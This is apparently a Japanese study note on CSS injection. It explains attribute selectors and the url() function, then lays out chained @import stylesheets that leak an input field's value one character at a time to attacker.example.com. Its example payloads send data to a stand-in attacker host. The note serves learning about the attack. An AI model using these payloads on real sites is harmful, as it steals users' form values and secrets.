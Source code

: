 # CSS Injection

- [\# CSS Injection とは](#CSS-Injection-とは)
- [\# Attribute Selector について](#Attribute-Selector-について)
- [\# CSS での HTTP Request について](#CSS-での-HTTP-Request-について)
- [\# Injection](#Injection)


## CSS Injection とは

HTML に対して CSS を挿入することで Web ページ上の機密情報の取得を狙う攻撃のこと。XSSとは異なる分類。

## Attribute Selector について

CSS には Attribute Selector と呼ばれるものがあり、ある要素の属性に条件を与え、その条件を満たす場合のみ CSS を適応する。

例) a 要素の href 属性が *http://* から始まる場合、赤色にする
```css
a[href^="http://"] {
	color: red;
}
```

## CSS での HTTP Request について

CSS では特定の URL を引数にファイル等を参照するための **URL** 関数が用意されている。

```css
body {
	background: url(http://example.com/bg.png);
}
```


## Injection

Attribute Selector と URL 関数を利用することで、属性の値を調べることができる。
簡潔に言うと、総当りする。

```css
input[value^=a] {
	url(http://attacker.example.com/?value=a);
}
input[value^=b] {
	url(http://attacker.example.com/?value=b);
}
...
```

しかし、すべての通りを記述するのは現実的でないため
*@import url(...)* を利用する

**Step 1:** 起点となる CSS ファイルを読み込むコードを挿入する
```html
<link rel="stylesheet" href="http://attacker.example.com/evil_1.css">
```

evil_1.css
```css
/*Step2の読み込みを開始*/
@import url(http://attacker.example.com/evil_2.css)
input[value^=a] {
	url(http://attacker.example.com/getter.php?value=a);
}
...
```

**Step 2:** evil_1.css の*@import url(..)*を受けるが、
*value*の値を待ち、その値によって css を変えてから
*＠import url()*に対しレスポンスをする。

evil_2.css
```css
/*Step3の読み込みを開始*/
@import url(http://attacker.example.com/evil_2.css)
/*一文字目が"l"の場合*/
input[value^=la] {
	url(http://attacker.example.com/?value=la);
}
...
```

以降繰り返し。

> hidden 属性では使えなかった。抜け道あり？

> 検索ボックス内の value から検索内容を盗む？